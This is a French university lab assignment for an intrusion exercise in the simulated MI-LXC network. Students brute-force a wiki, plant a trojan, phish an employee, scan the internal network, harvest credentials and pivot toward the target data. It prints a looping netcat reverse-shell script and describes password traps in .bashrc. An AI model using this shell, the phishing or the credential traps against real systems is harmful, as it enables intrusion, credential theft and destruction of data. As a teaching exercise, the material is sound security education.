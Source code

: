 # TP 1 : Intrusion

_François Lesueur ([francois.lesueur@insa-lyon.fr](mailto:francois.lesueur@insa-lyon.fr)), Kévin Denis ([kdenis@certilience.fr](mailto:kdenis@certilience.fr))_

Ce TP sera réalisé dans l'infrastructure MI-LXC, disponible [ici](https://github.com/flesueur/mi-lxc) ou dans la VM "tp-sec-debian" disponible en salle de TP (`/machines_virtuelles/secu_vms/master/tp-sec-debian.sh`, debian/debian et root/root). L'infrastructure déployée simule plusieurs postes dont un SI d'entreprise (firewall, DMZ, intranet, authentification centralisée, serveur de fichiers, quelques postes de travail interne), une machine d'attaquant (hacker) et quelques autres servant à l'intégration de l'ensemble. La compréhension plus fine du SI de l'entreprise ciblée fait partie des objectifs du TP.

Pour une utilisation sur un poste personnel depuis le dépôt github, la procédure est expliquée dans le README.md.

Pour une utilisation dans la VM "tp-sec-debian", MI-LXC est déjà installé et l'infrastructure déployée. Il faut passer root puis aller dans le dossier `/root/mi-lxc`. Ensuite, `./mi-lxc.py start`.

Une fois l'environnement démarré, la seule machine à utiliser est évidemment celle du hacker (`./mi-lxc.py display isp-a-hacker`).


Déroulement général
===================

Votre objectif est de détruire les informations internes de l'entreprise _Target_ (données comptables, base clients). Pour ce faire, vous travaillerez exclusivement sur la machine du hacker. Une première reconnaissance vous a amené à savoir que votre cible héberge un wiki sur `http://www.target.milxc`. Vous devrez réaliser les étapes suivantes :

* Récupération d'une adresse mail interne sur le wiki
* Altération du wiki en y intégrant un cheval de Troie prêt à être téléchargé par un interne
* Manipulation du commercial pour lui faire installer ce cheval de Troie (via un téléchargement interne donc plus crédible qu'une pièce jointe)
* Utilisation du cheval de Troie pour scanner le réseau interne
* Pivot vers la machine hébergeant les données ciblées
* Transfert puis suppression des données comptables et de la base clients
* Profit $$$

Le fil proposé ne couvre bien sûr pas l'ensemble des possibilités mais vise à montrer la diversité des moyens qu'un attaquant peut mettre en œuvre.

Préparation du cheval de Troie
==============================

Pour contrôler la machine du commercial, nous allons créer puis transmettre un cheval de Troie. Notre but est d'obtenir un shell sur la machine du commercial afin de l'utiliser comme pivot. Cependant, comme le firewall n'autorise pas les connexions vers l'intérieur de l'entreprise, nous allons plus spécifiquement envoyer un reverse-shell : c'est la machine du commercial qui initiera la connexion vers la machine du hacker.

Le code exemple suivant est disponible sur la machine du hacker (`/home/debian/tp/intrusion/trojan.sh`) :
```
#!/bin/bash
while [ 1 ]; do
	/bin/nc <IP Hacker> <Port Hacker> -q0 -e /bin/bash;
	sleep 1;
done
```

* Étudiez ce petit script, son fonctionnement, le programme nc (netcat). Pourquoi y a-t-il une boucle infinie ?
* Configurez et manipulez ce script en local pour ouvrir un reverse-shell avec vous-mêmes.
* Il existe plusieurs façons d'améliorer le shell obtenu (interactivité, gestion Ctrl-C, sortie d'erreur, autocomplétion, etc.), vous pouvez par exemple remplacer nc par socat comme expliqué [ici](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell)


Altération du wiki
==================

Le wiki est accessible publiquement mais une authentification est nécessaire pour lire et écrire. Vous disposez dans le dossier `/home/debian/tp/intrusion` d'un script pour tenter de _bruteforcer_ l'authentification. Étudiez son fonctionnement puis tentez de découvrir un accès. Pour vous aider, des listes de mots de passes communs sont disponibles sur internet ([Wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords)), un dictionnaire au format adapté au script fourni est proposé [ici](passwords.txt). À partir de cet accès, créez une page crédible (mise à jour, installation d'un logiciel, etc.), intégrant le `.sh` que vous aurez préparé comme reverse-shell.

Conseils : les comptes d'administration sont souvent root, admin ou administrator et des listes de mots de passe communs sont disponibles sur internet.


Corruption de la machine du commercial
======================================

Vous devez maintenant amener le commercial à exécuter votre cheval de Troie sur sa machine. Vous devez faire attention à envoyer un mail crédible, social-engineering, qui pousse le commercial à suivre les instructions. Dans un cas réel, il suffirait qu'un seul employé installe le cheval de Troie pour que l'attaque fonctionne

Appelez l'enseignant pour jouer le rôle du commercial, vérifiez le fonctionnement.


Scan du réseau interne
======================

Il vous faut maintenant explorer le réseau pour trouver votre cible. Le programme `nmap` est un scanner réseau, installé sur la machine du hacker mais bien sûr pas du commercial. Il faut donc le transférer pour l'exécuter depuis la machine du commercial. Nous pouvons utiliser netcat pour ce transfert (demandez si vous êtes curieux !) ou un serveur web sur la machine du hacker. Le dossier `/var/www/html` du hacker est partagé par un serveur web, le programme en ligne de commande `wget` peut être utilisé côté commercial pour télécharger depuis ce dossier.

Utilisez maintenant nmap sur la machine du commercial pour explorer le réseau interne : `nmap <adresse de réseau/masque>`. Dessinez un plan de réseau, les services ouverts, les logiciels utilisés, les sites accessibles. Soyez pertinent dans les adresses IP scannées, le scan est assez long.


Récupération d'un mot de passe valide
=====================================

Pour aller plus loin, vous aurez besoin d'un mot de passe valide sur le SI. Vous pouvez obtenir celui du commercial à partir de l'[analyse de son profil ClawsMail par exemple](https://github.com/AlessandroZ/LaZagne), en ajoutant un piège à son `.bashrc` lui demandant de retaper son mot de passe ou encore en intégrant la saisie lors du lancement du cheval de Troie.

Accès à la machine cible
========================

Pivotez vers la machine hébergeant les données ciblées. Pour faire du SSH, vous aurez besoin d'un shell [amélioré](https://artkond.com/2017/03/23/pivoting-guide/#beutifying-your-web-shell) ou d'utiliser [sshpass](https://srvfail.com/how-to-provide-ssh-password-inside-a-script-or-oneliner/) (disponible sur la machine du commercial). Vous pouvez ensuite utiliser la commande `find` avec les bons arguments pour trouver, sur cette machine cible, les fichiers sur lesquels vous pourriez avoir des droits en écriture.


Bonus
=====

Il existe un chemin d'attaque, qui sera plus difficile à contrôler côté firewall, qui rebondit par la machine `dev`...
